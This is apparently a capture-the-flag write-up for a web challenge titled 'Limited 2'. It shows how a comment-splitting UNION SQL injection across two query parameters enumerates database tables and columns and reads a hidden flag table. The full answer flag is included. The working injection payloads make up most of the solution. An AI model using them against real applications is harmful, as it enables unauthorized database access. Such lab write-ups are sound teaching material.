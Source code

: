 # Limited 2

Note: This uses the same source as Limited 1.

Can you read the flag in another table?

That table name starts with Flag_

https://limited-app-974780027560.us-east5.run.app/

Author: SamXML

---
Note: If you haven't read `Limit 1` challenge yet, please read it [here]([Web]Limited1) before continuing as this challenge is the second in a series of 3 challenges.

# Solution

As the description said, we will dig into all tables, using UNION attack I wrote in the `Limit 1`.

```sql
?price_op==1/*&limit=*/ union select table_name,null,null,null from information_schema.tables
```

![tables shown when queried](img/img1.png)

Alright, we cam see the `Flag_843423739` table at first, let's dig into it

```sql
/query?price_op==1/*&limit=*/ union select column_name,null,null,null from information_schema.columns where table_name='Flag_843423739'
```
and get the column `value`
![column shown when queried](img/img2.png)

So now just a simple query can get the flag

```sql
/query?price_op==1/*&limit=*/ union select value,null,null,null from Flag_843423739
```

# Flag: `wctf{r34d1n6_07h3r_74bl35_15_fun_96427235634}`